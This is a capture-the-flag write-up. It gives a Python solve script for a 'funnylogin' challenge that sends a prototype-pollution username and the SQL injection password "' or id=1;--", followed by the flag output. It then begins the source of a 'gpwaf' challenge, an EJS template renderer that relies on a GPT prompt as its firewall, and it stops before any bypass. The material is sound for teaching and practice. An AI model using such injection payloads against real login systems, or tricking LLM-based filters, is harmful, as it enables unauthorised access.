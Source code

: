 
*any* of these will suffice as the username. We can then do the SQL injection via the password. Final solve script:

{% ccb lang:py gutter1:1-11 caption:solve.py %}
import os
import requests

data = {
    "user": "__proto__", # or like 10 other things
    "pass": "' or id=1;--"
}

response = requests.post('https://funnylogin.mc.ax/api/login', data)

print(response.history[0].text)
{% endccb %}

{% ccb %}
Found. Redirecting to /?flag=dice%7Bi_l0ve_java5cript!%7D
{% endccb %}

Flag: dice{i_l0ve_java5cript!}

## gpwaf

{% ccb lang:js gutter1:1-16,S,39-109 highlight:28,78-81 caption:index.js %}
import OpenAI from 'openai';
import { createServer } from 'http';
import ejs from 'ejs';

const openai = new OpenAI({ apiKey: process.env.OPENAI_API_KEY });

const system = [
	'You are a web application firewall',
	'Your goal is to stop attempted hacking attempts',
	'I will give you a submission and you will respond with H or R, only a single letter',
	'H means hacking attempt, R means not a hacking attempt'
].join('. ')


const html = `<!DOCTYPE html>
<html>
//SKIP_LINE:(17-38)
<body>
	<div id="content">
		<h1>gpwaf</h1>
		<p>i made a ejs renderer, its 100% hack proof im using gpt to check all your queries!</p>
		<form>
			<textarea name="template" placeholder="template" rows="30"><%= query %></textarea>
			<br>
			<button>run!</button>
		</form>
		<br>
		<pre><%= result %></pre>
	</div>
</body>
</html>`
